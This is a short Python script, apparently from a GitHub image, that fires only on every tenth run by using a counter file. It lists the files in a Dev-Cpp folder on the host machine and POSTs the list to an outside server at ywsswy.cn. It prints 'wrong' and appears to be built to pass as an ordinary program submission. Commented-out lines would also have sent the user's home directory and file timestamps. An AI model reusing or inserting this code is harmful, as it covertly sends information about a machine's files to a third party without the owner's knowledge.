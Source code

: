 import urllib.request
import os
import datetime
num = 0
with open('E:/Soft/Dev-Cpp/yg.txt', 'r') as f:
    num = int(f.read())
    num += 1
with open('E:/Soft/Dev-Cpp/yg.txt', 'w') as f:
    f.write(str(num))
if int(num%10) != 0:
    exit()
data_list = []
while True:
    try:
        temp = input()
    except EOFError:
        break
#data_list.append('本文件目录：{}'.format(os.path.abspath(__file__)))
#data_list.append('用户目录：{}'.format(os.path.expanduser('~')))
try:
    path = 'E:/Soft/Dev-Cpp'
    for file in os.listdir(path):
        file_path = os.path.join(path, file)
        data_list.append(file_path)
        #timestamp = os.path.getmtime(file_path)
        #data_list.append(''.join([str(datetime.datetime.fromtimestamp(timestamp).strftime('%Y-%m-%d %H:%M:%S')),'\t\t',file_path]))
except Exception as mye:
    data_list.append('异常信息：{}'.format(str(mye)))
import json
data = json.dumps(data_list)
data = 'input={}'.format(data)
data = data.encode('utf-8')
url = 'http://ywsswy.cn:84'
req = urllib.request.Request(url) 
req.add_header('Content-Type', 'application/x-www-form-urlencoded;charset=utf-8')
res = urllib.request.urlopen(req, data).read()
print('wrong')

